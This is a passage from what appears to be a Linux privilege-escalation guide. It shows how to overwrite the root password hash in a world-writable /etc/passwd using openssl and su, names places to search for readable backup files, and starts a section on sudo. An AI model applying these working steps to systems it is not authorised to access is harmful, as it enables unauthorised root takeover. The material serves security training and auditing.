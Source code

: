 ### /etc/passwd

The /etc/passwd historically contained user password hashes.

If we can write to /etc/passwd, we can easily enter a known password hash for the root user, and then use the su command to switch to the root user.

Verify vulnerable permissions of /etc/passwd:

```
ls -l /etc/passwd
-rw-r--rw 1 root root /etc/passwd
```

Generate a new hash for a known password on your local machine:

```
openssl passwd "password"
dRCtCEMsFRnA2
```

Once the hash is obtained, navigate back to the compromised host and modify the /etc/passwd file:

Note: Enter the hash in the second field of the root user's row (should be an x).

```
nano /etc/passwd
root:dRCtCEMsFRnA2:0:0:root:/root:/bin/bash
```

Su into the new user with the newly set password:

```
su
Password:
root@debian# id
uid=0(root)
```

### Backups

Even if a machine has correct permissions on important or sensitive files, a user may have created insecure backups of these files.

It is always worth exploring the file system looking for readable backup files.

Some common places include user home directories, the <mark style="color:yellow;">/ (root) directory</mark>, <mark style="color:yellow;">/tmp</mark>, and <mark style="color:yellow;">/var/backups</mark>.

## Sudo

Sudo is a program which lets users run other programs with security privileges of other users.

By default, that user will be root.

A user generally needs to enter their password to use sudo, and they must be permitted access via rule(s) in the /etc/sudoers file.
